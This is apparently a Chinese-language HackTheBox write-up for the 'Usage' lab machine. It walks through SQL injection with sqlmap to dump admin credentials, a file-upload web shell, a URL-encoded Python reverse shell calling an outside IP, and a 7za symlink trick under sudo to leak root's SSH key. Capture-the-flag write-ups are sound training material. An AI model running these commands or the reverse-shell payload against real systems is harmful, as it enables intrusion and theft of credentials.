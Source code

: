 ```yaml
---
title: HackTheBox-Usage
date: 2025-3-19 20:00:00
tags: 红队
categories: 红队打靶-Linux
---
```




# namp

![image-20250409111435689](./Usage/image-20250409111435689.png)

# 80端口

## 子域名-admin

admin.usage.htb下是个登录页面，应该是管理员后台登录页面，需要账号密码

![image-20250409113711037](./Usage/image-20250409113711037.png)

## forget-password

测试sql注入时，单引号闭合时返回的是500服务器错误，双引号闭合时返回正常，sqlmap进行注入

![image-20250409162631767](./Usage/image-20250409162631767.png)

```shell
sqlmap -r sql --batch --dbs --level 3
```

![image-20250409162659121](./Usage/image-20250409162659121.png)

```shell
sqlmap -r sql -D usage_blog --tables -batch -p email --level 3
```

![image-20250409171003617](./Usage/image-20250409171003617.png)

```shell
sqlmap -r sql -D usage_blog -T admin_users -C "name,password,username" --dump  -batch -p email --level 3 
```

![image-20250409180633659](./Usage/image-20250409180633659.png)

使用john破解

![image-20250409181926372](./Usage/image-20250409181926372.png)

## RCE-GetShell

![image-20250409151742647](./Usage/image-20250409151742647.png)

更换头像时存在文件上传漏洞，可以参考这篇文章

[CVE-2023-24249 漏洞 |飞 D --- CVE-2023-24249 | flyD](./https://flyd.uk/post/cve-2023-24249/)

![image-20250409154328932](./Usage/image-20250409154328932.png)

![image-20250409154454536](./Usage/image-20250409154454536.png)

可以成功命令执行，反弹shell

![image-20250409161257502](./Usage/image-20250409161257502.png)

```
http://admin.usage.htb/uploads/images/php.jpg.php?cmd=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.16.22%22,443));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22sh%22)%27
```

![image-20250409154800161](./Usage/image-20250409154800161.png)

## 提权

dash目录下有monit的配置文件，经查询monit是个监控软件，查看查看进程，后台也有monit在运行

![image-20250409162808109](./Usage/image-20250409162808109.png)

![image-20250409162928930](./Usage/image-20250409162928930.png)

依次读取各个文件在`.monitrc`中找到了管理员密码，`home`目录下还有另一个用户，使用该密码可以成功切换到另一个用户`xander`

![image-20250409163017016](./Usage/image-20250409163017016.png)

该用户有`usage_management`的sudo权限![image-20250409172311939](./Usage/image-20250409172311939.png)

该程序的功能是备份源码，将该程序放在本地逆向看看，调用7za进行压缩

> -tzip:指定目标存档的文件类型，即 ZIP
>
> -a代表追加模式，并将文件添加到指定的存档 （ /var/backups/project.zip ）
>
> -snl:将符号链接存储为链接（而不是它们指向的文件）
>
> -mnt:启用多线程以实现更快的压缩
>
> -- *:包括当前目录中的所有文件和目录

`-snl`的作用时将符号链接压缩之后保存为链接，而不是该链接指向的文件，例如创建的链接为`a->b`，压缩之后还是保持该链接，解压之后不会有两个b，应该还是`a->b`的关系

![image-20250409164717457](./Usage/image-20250409164717457.png)

需要先创建一个`@id_rsa`,将id_rsa定义为目录文件，7z解压时就会报错，就能显示其链接的文件内容

![image-20250409173006287](./Usage/image-20250409173006287.png)

![image-20250409173314333](./Usage/image-20250409173314333.png)

![image-20250409170801369](./Usage/image-20250409170801369.png)